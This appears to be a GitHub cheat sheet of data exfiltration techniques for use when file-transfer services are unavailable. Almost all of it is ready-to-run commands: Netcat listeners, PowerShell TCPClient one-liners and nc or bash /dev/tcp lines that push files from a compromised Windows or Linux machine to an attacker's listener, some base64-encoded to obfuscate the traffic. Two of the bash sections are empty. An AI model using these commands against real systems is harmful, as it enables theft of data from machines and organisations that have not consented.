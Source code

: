# Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***
***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```
###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***
***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
base64 -w0 file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

***

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
base64 -w0 file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```
